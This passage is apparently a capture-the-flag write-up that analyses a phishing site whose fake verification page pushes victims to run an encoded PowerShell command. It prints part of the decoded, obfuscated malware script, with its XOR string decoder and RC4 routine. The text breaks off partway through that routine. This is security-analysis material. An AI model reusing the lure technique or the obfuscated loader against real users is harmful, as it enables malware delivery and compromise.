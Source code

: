 ```yaml
---
layout: writeup
title: Fishy Website
tags: misc
---
```


We are given URL to a login page and packet capture file.

![login_page.png](https://github.com/Cl4r1ty-1/CTF/blob/main/DownUnderCTF%202025/images/login_page.png?raw=true)

On the login there are placeholder credentials, "jdoe" and "Password" so I decide to try and login with those. This seems to work and takes me to a very sketchy looking verification page.

![verify.png](https://github.com/Cl4r1ty-1/CTF/blob/main/DownUnderCTF%202025/images/verify.png?raw=true)

I decide to investigate further by going to the URL in the PowerShell command it tries to get the victim to run. This takes me to a very large base64 encoded PowerShell command

{% highlight powershell %}
powershell -EncodedCommand IAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJABCAEIAQgA4ADgAQgA4AEIAOAA4ADgAQgBCAEIAOAA4ACAA... // command snippet
{% endhighlight %}

I decode the command in CyberChef to reveal an obfuscated PowerShell script

{% highlight powershell %}
               $BBB88B8B888BBB88 = 0xf1,
                  0x6e,
    0xcd,
 0xc6,0x79,0x4c,0x66,0xd1,0x02,
          0xf8,0x33,0xc4,0x86,
                 0xe7,0xa4,
                      0x35,0x8d,
  0x69,0xbd,0xd2,0x1d,0x50,0xf5,0xfb,0xdf,0xec,0xaf,
     0x0b,0x9e,0x53,
    0xa4,0xd3
  function IIlIlIlIllIIllIl {
     param([int[]]$BBBB8888BBBBB8BB, [int]$BB8BB8B8BBB8B8B8)
                    $B8B8B8B8B8B8B8BB = ""
             foreach ($B888BB88888BBBBB in $BBBB8888BBBBB8BB) {
                        $B8B8B8B8B8B8B8BB += [char]($B888BB88888BBBBB -bxor $BB8BB8B8BBB8B8B8)
           }
                         return $B8B8B8B8B8B8B8BB
                  }
    function lIIIlllIIIIllllI {
     param (
                         [byte[]]$B8BBB8B8BB8BBB88,
                 [byte[]]$BBB8BBB8B88B88B8
        )
                 $BBB88BB88BB8BBB8 = 0..255
                 $B888B8BB888BB88B = 0
           for ($B8BB8BBB8BB8BBBB = 0; $B8BB8BBB8BB8BBBB -lt 256; $B8BB8BBB8BB8BBBB++) {
                           $B888B8BB888BB88B = ($B888B8BB888BB88B + $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB] + $B8BBB8B8BB8BBB88[$B8BB8BBB8BB8BBBB % $B8BBB8B8BB8BBB88.Length]) % 256
                             $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB], $BBB88BB88BB8BBB8[$B888B8BB888BB88B] = $BBB88BB88BB8BBB8[$B888B8BB888BB88B], $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]
     }
                     $B8BB8BBB8BB8BBBB = 0
                    $B888B8BB888BB88B = 0
                        $BBBBB8BBB8BBB88B = @()
           foreach ($BBBB88888B888BBB in $BBB8BBB8B88B88B8) {
                             $B8BB8BBB8BB8BBBB = ($B8BB8BBB8BB8BBBB + 1) % 256
                              $B888B8BB888BB88B = ($B888B8BB888BB88B + $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]) % 256